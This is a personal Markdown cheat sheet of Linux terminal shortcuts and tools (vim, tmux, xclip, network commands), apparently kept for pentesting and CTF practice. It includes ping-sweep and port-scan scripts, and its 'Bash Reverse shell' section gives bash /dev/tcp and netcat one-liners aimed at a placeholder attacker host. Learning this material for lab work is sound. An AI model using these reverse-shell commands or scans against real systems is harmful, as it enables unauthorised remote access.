

# Useful commands and tools on Linux

## Useful shortcuts and hacks to use the terminal quickly

- `Ctrl+U` - clear all the current line from the end to the beginning only if the cursor is at the end of the line. It will basically delete everything before the cursor (meaning it can work if you do not want to clear the whole line)
- `Ctrl+Y` - recall the cleared line 
- `Ctrl+K` - clear all the current line from the beginning to the end only if the cursor is at the beginning of the line. Which will basically delete everything after the cursor ;) (meaning it can work if you do not want to clear the whole line)
- `Ctrl+W` - clear the previous word in the current line. For example if you have typed a command like `git diff /path/to/some/file` and you want to delete just the last parameter to the command, Ctrl+W is very useful.
- `Ctrl+E Ctrl+U` - move the cursor to the end of the line and clear all the current line from the end to the beginning.
- `Ctrl+C` - cancel the current command line, which implies clear all the current line no matter where the cursor is. (you can't recall the cleared line anymore).
- `Alt+Shift+#` - comment the current line, keep it in the history and bring up your prompt on a new line.
- `Alt+Backspace` to remove a word from your prompt
- `Ctrl+Shit+C` - copy something you previously selected
- `Ctrl+Shit+V` - paste something
- `Home` or `Ctrl+A` - Go to the begining of your prompt 
- `End` or `Ctrl+E` - Go to the end of your prompt
- To clear the terminal you can use `clear` but you can also use `CRTL+L`
- `Ctrl+shift++` to zoom in your terminal 
- `Crtl+-` to zoom out
- If you have a command typed in your prompt and you want to open it with your default editor you can use `CTRL+X+E`
- `Ctrl+R` to reverse search in you previously typed commands
- `!cmd` will pull off the last command we used with cmd For example- `!cd` will pull off last command we used with cd or `!ls` will pull off last command used with ls

### cd

- Say you were in the directory `usr/share/wordlists` and then you typed `cd` to go back home, if you want to go back to the wordlists you can use `cd -` (this command checks the $OLDPWD variable)  
  

### ls

- Instead of typing `ls -l` you can use the alias `ll`
- Instead of typing `ls -la` you can use the alias `la`

### Sudo

- If you typed a command but forgot to sudo it you can use `sudo !!` to sudo it. Then using Enter or the down arrow you can read the following lines, whe you are done you can just type `q`

### less

- If you want to read a file but do not want to scroll if it is big you can use `less FileName`

### tail

- `tail FileName` will print for you the last lines of a file

### sort

- Will sort the content of a file `sort filename`
- Example of possible result `file1 file2 differ: char 280, line 18`

### cmp

- Will compare files `cmp file1 file2`

### Create an alias

- If you have a command you use all the time but that is a little long you can use an alias to make it shorter `alias mycommand="the command you need"` so for example `alias crazyls = "ls -al"` now when you will type `crazyls` you will have the result of `ls -al`
- You can also edit your `.bashrc` file and add your aliases there. This will make them permanent.  
  

## Network commands

- `ifconfig`
- `ip a`
- `iwconfig` wireless connection
- `arp -a`
- `ip n`
- `ip r`
- `route` get the routing table
- `ping IP-ADD-OR-HOST` check if a host is up
- `netstat` 

### Pingsweep in bash

- On his course Practical Ethical Hacking Heath Adams shares this script that is really convenient to make an ip sweep.
```bash
#!/bin/bash
if [ "$1" == "" ]
then
echo "You forgot an IP address!"
echo "Syntax: ./ipsweep.sh 192.168.1"

else
for ip in `seq 1 254`; do
ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":" &
done
fi
```
- To automate this further we could add an nmap script to run on the alive ip found.

### Alternative port scan if nmap unvailable

- Here is an internal port Scanner (credits to Tryhackme - Holo network)
```bash
#!/bin/bash
ports=(21 22 53 80 443 3306 8443 8080)
for port in ${ports[@]}; do
timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null" 
done
```
- Python port scan (credits to Tryhackme - Holo network)
```python
#!/usr/bin/python3
import socket
host = "1.1.1.1"
portList = [21,22,53,80,443,3306,8443,8080]
for port in portList:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 try:
  s.connect((host,port))
  print("Port ", port, " is open")
 except:
  print("Port ", port, " is closed")
```
- netcat `nc -zv 192.168.100.1 1-65535`

## read .db file

- `apt-get install db-util` install db-util
- Show everything that’s in the file database.db `db_dump -p database.db`
- List the databases in the file database.db `db_dump -l database.db`
- Show only the content of the database mydb in the file database.db `db_dump -p -s mydb database.db`

## xclip

### Install

- `sudo apt install xclip`

### Use

xclip is a tool that can allow you to get any output in you clipboard.  
Let's say you have a big input to copy and do not want to mess up with the mouse, you can use xclip.
- `cat myverybigfile | xclip -sel clipboard` will send the content of myverybigfile to the clipboard

## Vi or Vim

- [Vim](https://linuxcommand.org/lc3_man_pages/vim1.html) is a text editor for writing code or editing linux files.
- It can be found preinstalled on many linux systems
- `vim /path/to/file` open a file
- `i` like insert to enter insert mode
- `x` cut char
- `dw` cut word
- `dd` cut line
- `yw` copy word
- `yy` copy full line
- `p` paste
- `esc` to exit insert mode
- `:` enter command mode
  - `:1` go to line 1
  - `:w` write and save
  - `:q` quit
  - `:q!` quit but not save
  - `:wq` or `ZZ` write and quit

> Note: it is possible to multiply a command for instance if you want to copy 3 words you can use `3yw`


- [Vim cheat sheet](https://vim.rtorr.com/)

## Strings

Strings will print human readable chars of a file. And for a CTF if we are looking for a specific string we can pipe it to grep
- `strings -e l file | grep -i FLAG` the `-e l` will select the encoding l is for 16-bit littleendian
- `strings file` is the basic use of the command

## TMUX

"tmux is a terminal multiplexer. It lets you switch easily between several programs in one terminal, detach them (they keep running in the background) and reattach them to a different terminal." Learn more about [tmux](https://github.com/tmux/tmux/wiki).

- `sudo apt install tmux -y` install Tmux
- `tmux new -s sessionName` create an join a new session
- `ctrl+b d` detach a session
- `tmux ls` list existing sessions
- `ctrl+b x` kill current session
- `tmux a -t sessionName` or `tmux a -t sessionId` join an existing session
- `tmux  ctrl+b pageup` to scroll and `q` to leave scroll mode

- [TMUX Cheat Sheet](https://tmuxcheatsheet.com/)
- [Introduction to tmux - IppSec](https://youtu.be/Lqehvpe_djs)

## Which architecture

- `lscpu` will tell you if you are 32 or 64
- `uname -m` similar but less verbose

## Bash Reverse shell

- Say we have a way through root and we need to get a reverse shell here are helpfuls command
  - `/bin/bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/bash`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/sh`
  - `bash -c 'bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1'` this one is symbol safe it is useful when doing it in an url or something like this.

> *Note: We have to set a listener prior to this with `rlwrap nc -lvp 4444`*

- [Here is an amazing website to generate reverse shell](https://www.revshells.com/) there are plenty of options for bash and you can even encode it if you needé

## Permissions cheat sheet

  
Source: [Chmod tutorial by Ryan Morrison](https://medium.com/@razl/chmod-tutorial-ce4386a3ce0c)

## Explainshell.com

- [This website](https://explainshell.com/) is relly helpful to understand what a specific linux command does. Here is an example with `rm -rf file`  


## Route your scripts through burp

- `export https_proxy=http://server-ip:port/` for example `export https_proxy=http://127.0.0.1:8080/`
- You will need to add a cert
  - Generate a burp.der cert
  - Convert it to pem `openssl x509 -inform der -in burp.der -out burp.pem`
  - Install Burp certificate:  
    - `cp burp.pem /etc/ssl/certs/` (will need sudo if not root)
    - `update-ca-certificates` (will need sudo if not root)
    - `cp burp.pem burp.crt`
    - `sudo cp burp.crt /usr/local/share/ca-certificates/`
    - `sudo cp burp.crt /usr/share/ca-certificates/`
- Everytime you launch a script you should see the traffic in burp

## Resources

 Shortcut to clear command line terminal 
Static Binaries 
Upgrading Simple Shells to Fully Interactive TTYs  
 you need to HACK faster!! (Linux Terminal hacks YOU NEED!!) NetworkChuck   
